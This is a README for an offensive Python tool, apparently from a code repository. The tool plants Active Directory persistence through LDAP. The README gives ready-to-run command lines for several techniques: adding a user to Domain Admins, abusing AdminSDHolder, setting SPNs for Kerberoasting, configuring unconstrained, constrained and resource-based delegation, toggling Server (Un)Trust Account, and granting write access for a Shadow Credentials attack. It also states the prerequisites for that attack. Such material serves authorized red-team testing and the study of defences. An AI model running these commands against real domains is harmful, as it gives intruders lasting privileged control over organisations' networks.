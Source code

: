 # LDAP Persistence
Python tool to execute several Active Directory persistence techniques through LDAP queries.

## Features

- Add user to Domain Admins Group
- Add user to AdminSDHolder
- Add SPN to a user for later Kerberoasting
- Add Unconstrained Delegation to Computer
- Server (Un)Trust Account
- Add write access to msDS-KeyCredentialLink to the target computer (Shadow Credentials attack)
- Add Constrained Delegation to Computer
- Add Resource-Based Constrained Delegation to Computer

## Usage

### Add user to Domain Admins Group:

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 0 -t targetUser
```

### Add user to AdminSDHolder

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 1 -t targetUser 
```

### Add SPN to user for later Kerberoasting

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 2 -t targetUser -spn example.local/test.example.local
```

### Add Unconstrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 3 -t targetComputer
```

### Add Server (Un)Trust Account

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 4 -t targetComputer
```

### Add write access to msDS-KeyCredentialLink to the target Computer (Shadow Credentials attack)

Keep in mind that in order to exploit the Shadow Credentials attack you need the following requirements:
- Domain must have Active Directory Certificate Services and Certificate Authority configured.
- Domain must have at least one DC running with Windows Server 2016 that supports PKINIT.

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 5 -t targetComputer
```

### Add Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 6 -t targetComputer -spn cifs/test.example.local
```

### Add Resource-Based Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 7 -t targetComputer -computer example-pc
```

## References

AdminSDHolder - https://adsecurity.org/?p=1906

Add SPN to user for later kerberoasting - https://adsecurity.org/?p=3466

Shadow Credentials - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials

Unconstrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation

Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

Resource-Based Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

Server (Un)Trust Account - https://stealthbits.com/blog/server-untrust-account/
